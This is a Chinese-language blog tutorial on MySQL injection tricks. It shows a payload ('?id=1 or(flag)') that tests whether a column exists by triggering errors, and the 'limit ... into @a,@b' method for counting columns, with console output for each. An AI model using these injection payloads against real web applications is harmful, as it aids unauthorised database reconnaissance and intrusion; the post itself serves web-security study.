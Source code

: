 ```yaml
---
title: mysql注入小技巧
toc: true
description: 本文不成体系的介绍一些 sql 注入的小的好玩的点，希望对你有用。
categories:
    - websec
    - sql injection
date: 2019-08-04 09:00:16
tags:
---
```


# 判断当前表中是否有某个字段

假设后台语句为：select \* from tuser where id=1

假设我们要判断有没有 flag 字段，我们可以构造 payload：?id=1 or(flag)

通过报错与否来判断有无该字段。

原理）（我自己测试出来的..）：where 后面可以直接加字段名，在判断 where 条件时，mysql 会对每条数据的该字段进行 atof/atod 函数操作（但实际的数据不变，只是这样判断），即：将其转换为浮点型，然后通过判断该字段是否为 0，若非零，则满足条件。

给出测试证明：

```
mysql> select * from tuser;
+------+----------+----------+
| id   | username | passwd   |
+------+----------+----------+
|    1 | admin    | basswd   |
|    1 | adam     | vassword |
|    1 | bob      | gasswd   |
|    2 | colin    | passwd   |
|    2 | doc      | passwd   |
|    3 | doctor   | passwd   |
|    3 | elite    | passwd   |
|    1 | NULL     | passw    |
|    1 | admin    | basswd   |
|    1 | adam     | vassword |
|    1 | bob      | gasswd   |
|    2 | colin    | passwd   |
|    1 | 0        | pass     |
|    1 |          | pas      |
|    1 |  dewe    | ds       |
|    1 |  3fd     | asd      |
+------+----------+----------+
16 rows in set (0.00 sec)

mysql> select * from tuser where username;
+------+----------+--------+
| id   | username | passwd |
+------+----------+--------+
|    1 |  3fd     | asd    |
+------+----------+--------+
1 row in set, 13 warnings (0.00 sec)

mysql> select * from tuser where id
    -> ;
+------+----------+----------+
| id   | username | passwd   |
+------+----------+----------+
|    1 | admin    | basswd   |
|    1 | adam     | vassword |
|    1 | bob      | gasswd   |
|    2 | colin    | passwd   |
|    2 | doc      | passwd   |
|    3 | doctor   | passwd   |
|    3 | elite    | passwd   |
|    1 | NULL     | passw    |
|    1 | admin    | basswd   |
|    1 | adam     | vassword |
|    1 | bob      | gasswd   |
|    2 | colin    | passwd   |
|    1 | 0        | pass     |
|    1 |          | pas      |
|    1 |  dewe    | ds       |
|    1 |  3fd     | asd      |
+------+----------+----------+
16 rows in set (0.00 sec)

mysql> select * from tuser where passwd;
Empty set, 16 warnings (0.00 sec)

mysql> show warnings;
+---------+------+-----------------------------------------------+
| Level   | Code | Message                                       |
+---------+------+-----------------------------------------------+
| Warning | 1292 | Truncated incorrect INTEGER value: 'basswd'   |
| Warning | 1292 | Truncated incorrect INTEGER value: 'vassword' |
| Warning | 1292 | Truncated incorrect INTEGER value: 'gasswd'   |
| Warning | 1292 | Truncated incorrect INTEGER value: 'passwd'   |
| Warning | 1292 | Truncated incorrect INTEGER value: 'passwd'   |
| Warning | 1292 | Truncated incorrect INTEGER value: 'passwd'   |
| Warning | 1292 | Truncated incorrect INTEGER value: 'passwd'   |
| Warning | 1292 | Truncated incorrect INTEGER value: 'passw'    |
| Warning | 1292 | Truncated incorrect INTEGER value: 'basswd'   |
| Warning | 1292 | Truncated incorrect INTEGER value: 'vassword' |
| Warning | 1292 | Truncated incorrect INTEGER value: 'gasswd'   |
| Warning | 1292 | Truncated incorrect INTEGER value: 'passwd'   |
| Warning | 1292 | Truncated incorrect INTEGER value: 'pass'     |
| Warning | 1292 | Truncated incorrect INTEGER value: 'pas'      |
| Warning | 1292 | Truncated incorrect INTEGER value: 'ds'       |
| Warning | 1292 | Truncated incorrect INTEGER value: 'asd'      |
+---------+------+-----------------------------------------------+
16 rows in set (0.00 sec)
mysql> select * from tuser where passwe
    -> ;
ERROR 1054 (42S22): Unknown column 'passwe' in 'where clause'
```

当然，如果自己构造的话，也可以在 information_schema 里面判断有没有某库，某表等。

# limit 下的字段数判断

使用 where 条件时，我们可以使用 order by 判断字段数，而 limit 后可以利用 `1,into @,@` （@为字段数）判断字段数

注：@为 mysql 的 User-Defined Variables，即：用户定义变量，也就是我们可以使用 @ 在 mysql 中定义变量，类似 php 中使用 \$ 定义变量。

比如：

```sql
mysql> set @var = 1;
Query OK, 0 rows affected (0.00 sec)

mysql> select @var;
+------+
| @var |
+------+
|    1 |
+------+
1 row in set (0.00 sec)
```

下面展示 limit 0,1 猜字段数，

```
mysql> select * from tuser where id=1 limit 0,1 into @a,@b,@c;
Query OK, 1 row affected (0.05 sec)

mysql> select * from tuser where id=1 limit 0,1 into @a,@b;
ERROR 1222 (21000): The used SELECT statements have a different number of columns
mysql> select @a;
+------+
| @a   |
+------+
|    1 |
+------+
1 row in set (0.00 sec)
```

原理：

使用 select into 语句将查询的一条（注意：@a，@b，@c 等只是一个变量，不能接受多条数据，所以 limit by x，1，第二个参数只能为 1），前后字段数不一致，放不进去当然就报列数不一样的错误。

未完待续....
